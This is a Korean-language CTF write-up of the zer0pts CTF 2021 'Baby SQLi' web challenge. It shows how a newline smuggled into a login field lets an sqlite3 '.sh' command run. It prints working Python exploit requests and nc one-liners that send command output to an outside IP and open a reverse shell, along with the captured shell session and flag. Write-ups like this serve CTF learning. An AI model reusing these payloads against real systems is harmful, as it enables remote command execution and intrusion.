 ```yaml
---
layout: post
date: 2021-03-08 00:00:10
title: "zer0pts CTF 2021 Write Up"
categories: CTF
tags: [SQL Injection]
author:
  - Jeongwon Jo

---
```

## <span style="color:#21C587"></span> (Web) Baby SQLi [170 pts]

> Baby SQLi challenge is in sqlite3 using the escape character is a string. This using to excute the shell.

일단 SQLite3에서는 `.system/.shell/.sh` 명령어들을 이용해서 쉘 명령어를 실행시킬 수 있습니다.

```
// SQLite3 CLI
sqlite> .sh id|nc 141.164.52.207 2

// Terminal
root@py:~# nc -lp 2
uid=0(root) gid=0(root) groups=0(root)
```
위를 보면 sqlite3에서 `.sh` 명령어를 이용해서 쉘 명령어를 실행시키는 것을 볼 수 있습니다.

```python
def sqlite3_query(sql):
    p = subprocess.Popen(['sqlite3', 'database.db'],
                         stdin=subprocess.PIPE,
                         stdout=subprocess.PIPE,
                         stderr=subprocess.PIPE)
    o, e = p.communicate(sql.encode())
    if e:
        raise Exception(e)
    result = []
    for row in o.decode().split('\n'):
        if row == '': break
        result.append(tuple(row.split('|')))
    return result
```
문제 코드를 보면 `sqlite3_query()` 함수에서 `subporcess.Popen()`에서 `comunicate()`를 이용해서 CLI를 사용하고 있어 `\n` 문자를 이용해서 SQLite3 상에서 줄띄움을 시킬 수 있습니다.

```python
@app.route('/login', methods=['post'])
def auth():
    username = flask.request.form.get('username', default='', type=str)
    password = flask.request.form.get('password', default='', type=str)
    if len(username) > 32 or len(password) > 32:
        flask.session['msg'] = 'Too long username or password'
        return flask.redirect(flask.url_for('home'))

    password_hash = hashlib.sha256(password.encode()).hexdigest()
    result = None
    try:
        result = sqlite3_query(
            'SELECT * FROM users WHERE username="{}" AND password="{}";'
            .format(sqlite3_escape(username), password_hash)
        )
    except:
        pass

    if result:
        flask.session['name'] = username
    else:
        flask.session['msg'] = 'Invalid Credential'
    return flask.redirect(flask.url_for('home'))
```
그리고 login 로직의 코드를 보면 `username`/`password` 값을 입력 받아와서 길이 검증을 하고, 쿼리문으로 넣어주는 것을 볼 수 있습니다. 그리고 이때 `username`의 값을 이스케이프 처리를 시켜주는 것을 볼 수 있습니다. 하지만 `SQLite`에서 `\` 이스케이프 문자는 단순 문자열로 처리하기 때문에 딱히 신경 쓰지 않아도 됩니다.

```
SELECT * FROM users where username = "\" or 1=1 -- " and password = "pocas";
```
즉, 위와 같이 이스케이프 처리가 돼도 상관이 없습니다.

```
SELECT * FROM users where username = "\";
.sh id|nc 141.164.52.207 2;
and password = "pocas";
```
그러니 위와 같이 줄띄움을 해서 `.sh` 명령어를 사용해주면 쉘 명령어를 사용할 수 있습니다.

```python
import requests

url = "http://web.ctf.zer0pts.com:8004"
username = '";\n.sh id|nc 2376348879 2\n'
data = {"username": username, "password": "pocas"}
requests.post(url+"/login", data)
```
```
root@py:~# nc -lp 2
uid=1000(app) gid=1000(app)
root@py:~#
```
위와 같이 익스 코드를 작성해주면 `SELECT` 문을 닫아주고, 바로 밑 줄에는 `.sh` 명령어가 실행이 됩니다. 

```python
import requests

url = "http://web.ctf.zer0pts.com:8004"
username = '";\n.sh nc 2376348879 2 -e sh\n'
data = {"username": username, "password": "pocas"}
requests.post(url+"/login", data)
```
```
root@py:~# nc -lvnp 2
Listening on 0.0.0.0 2
Connection received on 165.227.180.221 38761
id
uid=1000(app) gid=1000(app)
cat templates/index.html
<!DOCTYPE html>
<html>
    <head>
        <meta charset="UTF-8">
        <title>Welcome</title>
    </head>

    <body>
        <h1>Welcome, {{name}}!</h1>
        {% if name == 'admin' %}
        <p>zer0pts{w0w_d1d_u_cr4ck_SHA256_0f_my_p4$$w0rd?}</p>
        {% else %}
        <p>No flag for you :(</p>
        {% endif %}
    </body>
</html>
```
그래서 `nc`의 `e` 옵션을 이용해서 쉘을 전달하고, `index.html` 파일을 읽어보니 플래그가 있는 것을 볼 수 있었습니다.

> FLAG : zer0pts{w0w_d1d_u_cr4ck_SHA256_0f_my_p4$$w0rd?}

---

